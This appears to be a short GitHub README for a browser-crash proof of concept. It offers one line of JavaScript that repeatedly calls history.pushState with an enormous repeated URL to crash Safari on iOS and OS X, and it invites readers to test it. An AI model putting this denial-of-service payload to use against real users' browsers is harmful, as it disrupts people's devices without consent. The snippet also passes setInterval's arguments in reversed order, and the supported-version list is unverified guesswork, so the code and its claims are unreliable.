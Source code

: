 # safari_crash_poc
This is a POC of my bug that exploits ```setInterval``` and ```history.pushState``` to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
me (duh)
# support
iOS 10

OS X 10.11.6
# probable support
iOS 11.X.X

iOS 9.X.X

macOS 10.12.X

macOS 10.13.X
